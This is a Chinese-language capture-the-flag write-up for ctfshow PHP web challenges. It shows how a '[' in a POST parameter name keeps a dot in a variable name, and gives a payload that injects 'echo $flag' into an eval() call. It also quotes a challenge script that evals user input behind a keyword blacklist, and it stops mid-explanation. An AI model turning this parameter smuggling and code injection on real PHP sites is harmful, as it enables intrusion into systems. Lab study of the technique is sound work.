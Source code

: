 
第一个需要绕过的地方`isset($_POST['CTF_SHOW.COM'])`，因为php变量命名是不允许使用点号的

PHP变量名应该只有数字字母下划线,同时GET或POST方式传进去的变量名,会自动将空格 + . [转换为_
但是有一个特性可以绕过,使变量名出现.之类的
特殊字符[, GET或POST方式传参时,变量名中的[也会被替换为_,但其后的字符就不会被替换了
如 CTF[SHOW.COM=>CTF_SHOW.COM

可以测试一下

```php
<?php
var_dump($_POST);
?>
输入 CTF_SHOW.COM=1
返回
array (size=1)
  'CTF_SHOW_COM' => string '1' (length=1)

    输入 CTF[SHOW.COM=1
返回
array (size=1)
  'CTF_SHOW.COM' => string '1' (length=1)
```

payload:

> post: CTF_SHOW=&CTF[SHOW.COM=&fun=echo $flag

直接在`eval("$c".";"); `这一步就将flag输出，不继续进行下一个flag的比较

## web125

```php
<?php
error_reporting(0);
highlight_file(__FILE__);
include("flag.php");
$a=$_SERVER['argv'];
$c=$_POST['fun'];
if(isset($_POST['CTF_SHOW'])&&isset($_POST['CTF_SHOW.COM'])&&!isset($_GET['fl0g'])){
    if(!preg_match("/\\\\|\/|\~|\`|\!|\@|\#|\%|\^|\*|\-|\+|\=|\{|\}|\"|\'|\,|\.|\;|\?|flag|GLOBALS|echo|var_dump|print/i", $c)&&$c<=16){
         eval("$c".";");
         if($fl0g==="flag_give_me"){
             echo $flag;
         }
    }
}
?>

```



php中的`$_SERVER['argv']` 
